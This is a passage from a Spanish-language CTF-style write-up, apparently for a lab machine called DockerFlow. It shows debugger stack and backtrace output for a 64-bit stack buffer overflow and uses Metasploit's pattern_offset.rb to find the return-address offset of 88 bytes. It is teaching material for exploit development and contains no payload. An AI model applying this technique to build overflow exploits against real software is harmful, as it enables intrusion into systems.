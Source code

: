 ```
05:0028│     0x7fff6cb9a360 —▸ 0x7fff6cb9a448 —▸ 0x7fff6cb9b4c8 ◂— '/home/kali/Desktop/DockerFlow/test/manager'
06:0030│     0x7fff6cb9a368 ◂— 0x281926418d70b49c
07:0038│     0x7fff6cb9a370 ◂— 0
────────────────────────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────────────────────
 ► 0   0x5569bfce73b8 main+253
   1 0x3164413064413963 None
   2 0x6441336441326441 None
   3 0x4136644135644134 None
   4 0x3964413864413764 None
   5 0x41316541306541 None
   6   0x7fff6cb9a448 None
   7 0x281926418d70b49c None
───────────────────────────────────────────────────────────────────────────────────
```

Vemos esta parte de aqui:

```
────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]─────────────────────────────────────────────────────────────
 ► 0x5569bfce73b8 <main+253>    ret                                <0x3164413064413963>
```

Que es la parte que nos interesa, ya que se muestra la direccion de memoria al cual le vamos a encontrar el `offset` de la siguiente forma:

### Identificación del Offset

Para determinar el desplazamiento exacto (`offset`) donde ocurre la `sobrescritura`, usamos `pattern_offset.rb`, proporcionando la dirección en hexadecimal obtenida del `RIP`:

```shell
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x3164413064413963
```

Info:

```
[*] Exact match at offset 88
```

Esto indica que el `offset` es de `88` bytes.

> NOTA:

En una arquitectura de 64 bits, no existe el registro `EIP` como en las arquitecturas de 32 bits. En su lugar, se utiliza el registro `RIP`, que almacena la dirección de la próxima instrucción a ejecutar. Sin embargo, esto no significa que `RIP` contenga directamente el valor que estamos sobreescribiendo en un desbordamiento de buffer.

Por ello, debemos buscar el valor en el stack que representa la dirección de retorno (`ret`), que es el objetivo del desbordamiento. En este caso, ese valor es `0x3164413064413963`, el cual proviene de nuestra entrada controlada y será el punto que debemos sobreescribir para desviar el flujo de ejecución.
